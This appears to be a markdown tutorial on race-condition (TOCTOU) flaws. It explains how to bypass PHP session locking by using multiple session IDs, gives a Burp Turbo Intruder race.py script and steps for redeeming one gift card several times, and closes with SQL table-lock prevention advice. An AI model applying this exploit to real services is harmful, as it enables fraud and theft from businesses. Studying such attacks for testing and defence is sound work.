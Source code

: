 # Race Condition
- [Overview](#overview)
- [Exploitation](#exploitation)


## Overview
- A race condition happens when two or more actions happen at nearly the same time, and the final result depends on which action finishes first. If a program doesn't handle this properly, an attacker can "race" the program and change the result in their favor.

- The TOCTOU Problem (Time of Check to Time of Use)
    - This is a common type of race condition. It means:
        - Time of Check: The program checks if it's safe to do something.
        - Time of Use: The program actually does that thing.
    If there's a time gap between these two steps, an attacker can change things in that gap.


    
## Exploitation
- **PHP Session Files and File Locks**
    - PHP stores sessions in files on the server.
    - When a session is active, PHP locks the session file to prevent simultaneous access.
    - This blocks multiple parallel requests using the same session — they wait for the lock to release.
    - This behavior prevents race condition exploits if all requests share one session.
- Bypass:
    - Use multiple sessions (different session IDs).
    - Each session has its own file, no shared lock.
    - This allows parallel requests, enabling race condition exploitation.


- **Burp Turbo Intruder Exploit**
    - Example:
        - Install Turbo Intruder from Burp Suite > BApp Store.
        - Collect multiple session IDs by sending the login request in Repeater ~5 times. Save the PHPSESSID cookies.
    - Exploit Steps:
        - Buy a gift card & intercept the redeem request — then drop it.
        - Send this redeem request to Turbo Intruder.
    - In Turbo Intruder:
        - Replace the session ID with %s in the Cookie header:
        Cookie: PHPSESSID=%s
        Select or paste the [race.py](https://raw.githubusercontent.com/PortSwigger/turbo-intruder/b5c6e2d614cf8db0e9b02a32dd06119161888e17/resources/examples/race.py) script from Turbo Intruder's GitHub.
        - Add your saved session IDs in the script as payloads.
        ```python
            def queueRequests(target, wordlists):
            engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=30,
                                requestsPerConnection=100,
                                pipeline=False
                                )

            # the 'gate' argument blocks the final byte of each request until openGate is invoked
            for sess in ["p5b2nr48govua1ieljfdecppjg", "48ncr9hc1rjm361fp7h17110ar", "0411kdhfmca5uqiappmc3trgcg", "m3qv0d1qu7omrtm2rooivr7lc4", "onerh3j83jopd5ul8scjaf14rr"]:
                engine.queue(target.req, sess, gate='race1')

            # wait until every 'race1' tagged request is ready
            # then send the final byte of each request
            # (this method is non-blocking, just like queue)
            engine.openGate('race1')

            engine.complete(timeout=60)


            def handleResponse(req, interesting):
                table.add(req)
        ```
    - Start the attack by clicking Attack.
        - If successful, the gift card is redeemed multiple times, increasing your balance.

## Prevention
- Use SQL WRITE locks to prevent simultaneous database access:
```SQL
LOCK TABLES active_gift_cards WRITE, users WRITE;
```
- After processing, release with:
`UNLOCK TABLES;`
- This blocks multiple threads from updating the same data at once, preventing the race condition.
